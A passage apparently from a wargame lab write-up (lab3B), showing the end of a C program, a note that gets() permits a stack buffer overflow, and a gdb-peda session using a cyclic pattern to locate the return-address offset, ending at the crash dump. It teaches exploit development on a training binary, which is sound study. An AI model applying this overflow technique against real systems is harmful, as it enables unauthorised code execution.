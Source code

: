 ```c
                break;
            }
        }
    }

    return EXIT_SUCCESS;
}
```

Not much to say here, we have a 128 bytes buffer and we can't use the *execve()* (syscall 11) to call a **/bin/bash**. As the *gets()* function doesn't check the size of the input buffer, we can easily overflow the stack.

## Dynamic Analysis

First things first, let's find the offset of the return address in `gdb`.

```nasm
lab3B@warzone:/levels/lab03$ gdb lab3B
Reading symbols from lab3B...(no debugging symbols found)...done.
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%'
gdb-peda$ run
Starting program: /levels/lab03/lab3B 
[New process 3108]
just give me some shellcode, k
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3108]
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x6e414152 ('RAAn')
ECX: 0xfbad2288 
EDX: 0xb7fce8a4 --> 0x0 
ESI: 0x0 
EDI: 0x41534141 ('AASA')
EBP: 0x41416f41 ('AoAA')
ESP: 0xbffff700 ("AAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
EIP: 0x70414154 ('TAAp')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x70414154
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 ("AAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0004| 0xbffff704 ("AqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0008| 0xbffff708 ("VAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0012| 0xbffff70c ("AAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
0016| 0xbffff710 ("AsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%")
```